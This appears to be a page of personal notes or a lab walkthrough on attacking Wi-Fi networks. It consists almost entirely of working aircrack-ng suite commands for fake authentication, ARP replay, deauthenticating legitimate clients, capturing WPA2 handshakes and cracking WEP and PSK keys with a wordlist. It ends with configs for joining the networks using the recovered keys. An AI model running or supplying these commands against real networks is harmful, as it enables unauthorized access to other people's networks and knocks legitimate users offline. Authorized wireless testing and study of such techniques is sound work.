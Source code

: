 ```
sudo aireplay-ng -1 3600 -q  10 -a F0:9F:C2:71:22:11 wlan0mon
#or (preferably) BA:49:A9:53:A1:8C being the mac address of wlan0mon
sudo aireplay-ng -1 3600 -q  10 -a F0:9F:C2:71:22:11 -h BA:49:A9:53:A1:8C wlan0mon

#generate traffic by launching ARP-request replay attack at the same time (using the same fake client mac addr)
sudo aireplay-ng --arpreplay -b F0:9F:C2:71:22:11 -h BA:49:A9:53:A1:8C wlan0mon

# while this is running, deauth a legit connected client (not our wlan0) and/or ping non existent IP address to generate ARP req
sudo aireplay-ng -0 5 -a F0:9F:C2:71:22:11 -c 00:18:4D:1D:A8:1F wlan0mon

# While this is running, crack the password Crack with data captured in a command earlier. (at the same time)
sudo aircrack-ng wifi/wifi-old-01.cap
```

### Connecting to WEP 
wifi-wep.conf
```
network={
  ssid="wifi-old"
  key_mgmt=NONE
  wep_key0="12345"  # or wep_key0=11bb33cd55 (hex format: the key decrypted was 11:bb:33:cd:55).
  wep_tx_keyidx=0
}
```
Connecting 
```
sudo wpa_supplicant -i wlan2 -c wep.conf 
#simply way to connect without wpa_supplicant
sudo iwconfig wlan2 essid "wifi-old" key 11bb33cd55 #(sudo iwconfig wlan2 key off) to clear key
sudo dhclient wlan2 -v
```

## Cracking PSK
```
#monitor traffic 
sudo airodump-ng wlan0mon -w wifi/psk-scan -c 6 --wps

#deauth all clients. -a option is for the bssid of the AP
sudo aireplay-ng -0 10 -a F0:9F:C2:71:22:12 wlan0mon

#after capturing handshakes (EAPOL), wait few minutes and crack it with aircrack-ng
sudo aircrack-ng wifi/psk-scan.cap -w rockyou.txt
```

### Connecting to PSK wifi
```
sudo wpa_passphrase wifi-mobile starwars1  > wifi-psk.conf
sudo wpa_supplicant -i wlan0 -c wifi-psk.conf
sudo dhclient wlan0 -v
```
Another `psk.conf`
```
network={
    ssid="wifi-mobile"
    psk="starwars1"
    scan_ssid=1
    key_mgmt=WPA-PSK
    proto=WPA2
}
```
